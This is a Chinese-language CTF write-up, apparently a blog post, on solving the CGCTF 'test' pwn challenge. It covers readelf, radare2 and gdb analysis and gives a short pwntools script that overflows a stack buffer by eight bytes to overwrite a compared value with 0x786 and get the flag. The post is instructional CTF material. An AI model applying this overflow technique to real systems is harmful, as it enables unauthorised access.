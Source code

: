 ```yaml
---
layout:     post
title:      南邮pwn题test
subtitle:   南邮大学CGCTF中pwn题
date:       2020-02-08
author:     BY kexiaohei
header-img: img/pwn.jpg
catalog: true
tags:
    - 南邮
    - pwn
    - test
---
```


# 南邮pwn：文件test

![image-20191229014220817](https://frankie625641200.github.io/img/nanyou_pwn_test/image-20191229014220817.png)

## 1、读题

![image-20191229014530452](https://frankie625641200.github.io/img/nanyou_pwn_test/image-20191229014530452.png)

由题目可知，nc就是监听

而ctf.acdxvfsvd.net就是域名

1926是端口

然后下载该文件，得到test文件与test.c文件

为了形象，就不看test.c了

## 2、检验加壳

首先使用readelf去查看程序架构是否加壳

```
$readelf test -a
```

![image-20191229015212471](https://frankie625641200.github.io/img/nanyou_pwn_test/image-20191229015212471.png)

可以看到程序入口点并且可以看出为x86文件

确定为未加壳文件

### 2.1 加壳程序

待添加实例图



### 2.2 未加壳程序

![image-20191229015438391](https://frankie625641200.github.io/img/nanyou_pwn_test/image-20191229015438391.png)

## 3、redare2查看架构

```
$r2 test
[0x00400730]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for objc references
[x] Check for vtables
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[0x00400730]> afl
0x00400730    1 41           entry0
0x004006e0    1 6            sym.imp.__libc_start_main
0x00400690    1 6            sym.imp.puts
0x004006a0    1 6            sym.imp.__stack_chk_fail
0x004006b0    1 6            sym.imp.setbuf
0x004006c0    1 6            sym.imp.system
0x004006d0    1 6            sym.imp.printf
0x004006f0    1 6            sym.imp.getchar
0x00400700    1 6            sym.imp.gets
0x00400710    1 6            sym.imp.__isoc99_scanf
0x00400800    8 122  -> 90   entry.init0
0x004007e0    3 28           entry.fini0
0x00400760    4 50   -> 41   fcn.00400760
0x00400720    1 6            fcn.00400720
0x00400658    3 26           fcn.00400658
0x00400826   11 288          main
[0x00400730]> s main
[0x00400826]> VV

```

![image-20191229015652848](https://frankie625641200.github.io/img/nanyou_pwn_test/image-20191229015652848.png)

## 4、分析架构

了解程序流程的走法

![image-20191229015757933](https://frankie625641200.github.io/img/nanyou_pwn_test/image-20191229015757933.png)

尤其是分支的不同点的不同回显

还需要进行栈溢出操作，既然需要栈溢出

![image-20191229015944103](https://frankie625641200.github.io/img/nanyou_pwn_test/image-20191229015944103.png)

可见程序该如此

## 5、gdb调试

由于分析程序结果为：首先询问生日的时候不能满足0x786(1926)，一旦不是1926生日就需要输入name，然后输入name以后再对比是不是满足0x786(1926)，gdb调试就是为了满足这个点

![image-20191229020546830](https://frankie625641200.github.io/img/nanyou_pwn_test/image-20191229020546830.png)

第二次的时候eax对比0x786为负，这时候只需要它为正即可

可是这时候可以发现一个有趣的事情

那就是栈

![image-20191229020848239](https://frankie625641200.github.io/img/nanyou_pwn_test/image-20191229020848239.png)

gdb中直接使用p指令把eax改了看看

```
p $eax = 0x786
```

![image-20191229021048949](https://frankie625641200.github.io/img/nanyou_pwn_test/image-20191229021048949.png)

继续运行：

![image-20191229021121716](https://frankie625641200.github.io/img/nanyou_pwn_test/image-20191229021121716.png)

拿到flag

接下来就是书写程序的问题了

## 6、python程序exploit编写

```
运行程序
p=process('./test')    //后期远程改为p.remote('ctf.acdxvfsvd.net',1926)

输出收到的数据
print(p.recv())     //What's Your Birth?

发送第一次发送的数据
p.send('1234\n')     //只要不是1926即可 记住：必须要回车

输出发送数据后获取收到的数据
print(p.recv())     //What's Your Name?

继续发送数据，这时候需要发送栈溢出的数据，由上面可以知道1926与name就差八个字节
p.send('a'*8+p32(0x786)+'\n')       //输入八个a后堆栈溢出输入0x786(1926) 记住：要回车

输出收到的数据
print(p.recv())

原本以为这时候是个完美的程序，可是python脚本攻击速度太快，在程序运行中会在程序还没进行判断的时候就输入了，因此在每一次收到之前都是延缓一秒
sleep(1)

因此程序为：
from pwn import *

p=process('./test')
sleep(1)
print(p.recv())
p.send('1234')
sleep(1)
print(p.recv())
p.send('a'*8+p32(0x786))
sleep(1)
print(p.recv())
```

完成后运行：

![image-20191229022523155](https://frankie625641200.github.io/img/nanyou_pwn_test/image-20191229022523155.png)

![image-20191229022558446](https://frankie625641200.github.io/img/nanyou_pwn_test/image-20191229022558446.png)